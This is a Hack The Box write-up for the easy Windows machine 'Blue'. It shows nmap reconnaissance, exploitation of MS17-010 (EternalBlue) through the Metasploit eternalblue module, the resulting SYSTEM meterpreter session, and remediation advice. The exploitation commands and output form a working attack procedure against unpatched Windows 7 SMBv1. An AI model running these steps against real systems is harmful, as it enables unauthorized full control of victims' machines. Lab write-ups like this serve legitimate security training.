


# HTB — Blue (Easy, Windows)

## Overview

Blue is an easy Windows machine and a textbook demonstration of MS17-010 ("EternalBlue"). The target is an unpatched Windows 7 host with SMBv1 enabled, which is exploited directly for a SYSTEM shell.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC 10.129.104.54
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows

Host script results:
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1
|_  Computer name: haris-PC
|_  message_signing: disabled (dangerous, but default)
````

The host runs Windows 7 SP1 with SMB exposed on port 445 and message signing disabled.

### SMB enumeration

Enumerating SMB confirmed SMBv1 is enabled on an unpatched Windows 7 host:



## Exploitation

### MS17-010 (EternalBlue)

Windows 7 SP1 with SMBv1 enabled is vulnerable to MS17-010, a critical remote code execution flaw in the SMBv1 protocol. The host was unpatched, so I exploited it with the corresponding Metasploit module:

````
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 10.129.104.54
msf6 > run
````

The exploit returned a session running as `NT AUTHORITY\SYSTEM` — the highest privilege level, with full control of the host and no separate privilege-escalation step required:



````
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
````

## Remediation

- **Patch MS17-010:** Apply the MS17-010 security update (or decommission end-of-life Windows 7 hosts).
- **Disable SMBv1:** Remove the legacy SMBv1 protocol entirely; use SMBv2/3 with signing required.
- **Network exposure:** Do not expose SMB (445) to untrusted networks.
````
````